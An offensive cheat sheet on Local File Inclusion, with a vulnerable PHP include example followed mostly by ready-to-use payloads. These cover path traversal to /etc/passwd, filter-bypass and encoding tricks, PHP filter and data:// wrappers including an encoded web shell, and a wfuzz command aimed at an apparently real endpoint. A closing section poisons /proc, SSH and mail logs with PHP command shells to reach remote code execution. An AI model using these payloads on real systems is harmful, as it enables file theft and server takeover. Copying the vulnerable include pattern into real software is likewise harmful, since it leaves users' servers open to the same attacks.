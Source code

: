 # 📂 File Inclusion

## Local File Inclusions (LFI)&#x20;

{% hint style="info" %}
An attacker can use **Local File Inclusion** (LFI) to trick the web application into exposing or running files on the web server. An LFI attack may lead to information disclosure, remote code execution, or even XSS.&#x20;

Typically, LFI occurs when an application uses the **path to a file as input**. If the application treats this input as trusted, a local file may be used in the include statement.
{% endhint %}

### Check for LFI

The following is an example of **PHP code that is vulnerable to LFI**.

```php
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
```

* **GET** parameter in url

{% embed url="https://github.com/kurobeats/fimap" %}
Tool to check LFI
{% endembed %}

### Payloads

```
http://example.com/index.php?page=../../../etc/passwd
http://example.thm.labs/page.php?file=/etc/passwd 

# NULL BYTE
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00 

# FILTER BYPASS TRICKS
http://example.com/index.php?page=....//....//etc/passwd
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd 
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd

# DOUBLE ENCODING
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00

# UTF-8 ENCODING
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

#### FUZZ LFI ENDPOINTS

```bash
wfuzz -c -w list-lfi.txt --hc 404,400 --hw 0 https://metabase.peren.fr/api/geojson?url=file:///FUZZ
```

### PHP Wrapper

* Used to read **.PHP files**. It is not possible to read a PHP file's content via LFI because PHP files get executed and never show the existing code. We can use the PHP filter to display the content of PHP files in other encoding formats such as base64 or ROT13.

**Commands**

```
http://example.com/page.php?file=php://filter/resource=/etc/passwd

http://example.com/page.php?file=php://filter/read=string.rot13/resource=/etc/passwd

http://example.com/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd

http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

## LFI 2 RCE
### /proc/self/environ
>Like a log file :
```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

### via SSH
```bash
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
# Then include the SSH log files inside the Web Application :
# http://example.com/index.php?page=/var/log/auth.log&cmd=id
```
### via MAIL
>First send an email using the open SMTP then include the log file located at http://example.com/index.php?page=/var/log/mail.
```bash
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```
>In some cases you can also send the email with the mail command line.
```bash
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```
